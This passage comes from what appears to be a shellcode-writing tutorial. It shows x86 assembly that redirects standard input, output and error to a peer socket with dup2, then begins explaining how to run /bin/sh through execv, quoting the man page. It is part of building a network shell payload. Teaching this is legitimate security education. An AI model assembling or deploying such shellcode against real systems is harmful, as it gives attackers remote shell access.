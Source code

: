 By looking at the C version in the beginning of the article, we simply duplicate process by running `dup2` for STDIN, STDOUT and STDERR:

```nasm
    ; --------------------
    ; # Setup dup2
    ; redirect to stdin
    mov al, 0x3f     ; syscall number dup2 63 --> 0x3f
    mov ebx, edi     ; peer's file descriptor
    mov ecx, edx     ; STDIN
    int 0x80

    ; redirect to stdout
    mov al, 0x3f
    mov cl, 0x1      ; STDOUT
    int 0x80

    ; redirect to stderr
    mov al, 0x3f
    mov cl, 0x2      ; STDERR
    int 0x80
```

Now it's time to execute `/bin/sh`. This is done by calling the `execv` system call, `man 3 execv`:

```
EXEC(3)                                                            Linux Programmer's Manual                                                            EXEC(3)

NAME
       execl, execlp, execle, execv, execvp, execvpe - execute a file

SYNOPSIS
       #include <unistd.h>

       extern char **environ;

       int execl(const char *path, const char *arg, ...);
       int execlp(const char *file, const char *arg, ...);
       int execle(const char *path, const char *arg,
                  ..., char * const envp[]);
       int execv(const char *path, char *const argv[]);
       int execvp(const char *file, char *const argv[]);
       int execvpe(const char *file, char *const argv[],
                  char *const envp[]);

   Feature Test Macro Requirements for glibc (see feature_test_macros(7)):

       execvpe(): _GNU_SOURCE

DESCRIPTION
       The  exec() family of functions replaces the current process image with a new process image.  The functions described in this manual page are front-ends
       for execve(2).  (See the manual page for execve(2) for further details about the replacement of the current process image.)

       The initial argument for these functions is the name of a file that is to be executed.

[ for the sake of brevity, full output is not shown]
```

